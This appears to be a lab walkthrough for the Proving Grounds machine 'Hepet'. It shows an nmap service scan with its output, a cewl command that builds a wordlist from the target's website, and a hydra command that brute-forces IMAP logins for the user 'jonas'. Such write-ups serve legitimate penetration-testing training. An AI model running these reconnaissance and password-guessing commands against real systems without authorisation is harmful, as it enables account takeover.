#### Walkthrough

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Hepet/walkthrough.png)

#### Enumeration

```
sudo nmap -Pn -p- -sV 192.168.239.140 -T4 -oN Hepet.nmap
```

```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-16 11:19 EDT
Nmap scan report for 192.168.239.140
Host is up (0.21s latency).
Not shown: 65522 filtered ports
PORT      STATE SERVICE        VERSION
25/tcp    open  smtp           Mercury/32 smtpd (Mail server account Maiser)
79/tcp    open  finger         Mercury/32 fingerd
105/tcp   open  ph-addressbook Mercury/32 PH addressbook server
106/tcp   open  pop3pw         Mercury/32 poppass service
110/tcp   open  pop3           Mercury/32 pop3d
143/tcp   open  imap           Mercury/32 imapd 4.62
443/tcp   open  ssl/http       Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
2224/tcp  open  http           Mercury/32 httpd
7680/tcp  open  pando-pub?
8000/tcp  open  http           Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
11100/tcp open  vnc            VNC (protocol 3.8)
20001/tcp open  ftp            FileZilla ftpd 0.9.41 beta
33006/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33006-TCP:V=7.91%I=7%D=8/16%Time=611A82E9%P=x86_64-pc-linux-gnu%r(N
SF:ULL,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.239'\x20is\x20not\x20a
SF:llowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(RPCCheck
SF:,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.239'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(LANDesk-RC,
SF:4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.239'\x20is\x20not\x20allow
SF:ed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(afp,4D,"I\0\
SF:0\x01\xffj\x04Host\x20'192\.168\.49\.239'\x20is\x20not\x20allowed\x20to
SF:\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Host: localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 294.07 seconds
```

All the http services don't seem to have vulnerabilities. Trying to use brute-force attatcks to find the useful information. The rockyou.txt wordlist
is not working so I generate wordlists from https website.

```
cewl -d 4 https://192.168.247.140 -w ~/Documents/OffSecPG/Hepet/wordlists.txt
```

Only the IMAP service found is suitable for enumeration. Other services will block brute-force attacks.

```
hydra -l jonas -P ~/Documents/OffSecPG/Hepet/wordlists.txt 192.168.247.140 -s 143 imap
```

Getting a vaild passowd successfully.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Hepet/Hepet_2021.08.25_23h51m41s_001_.png)
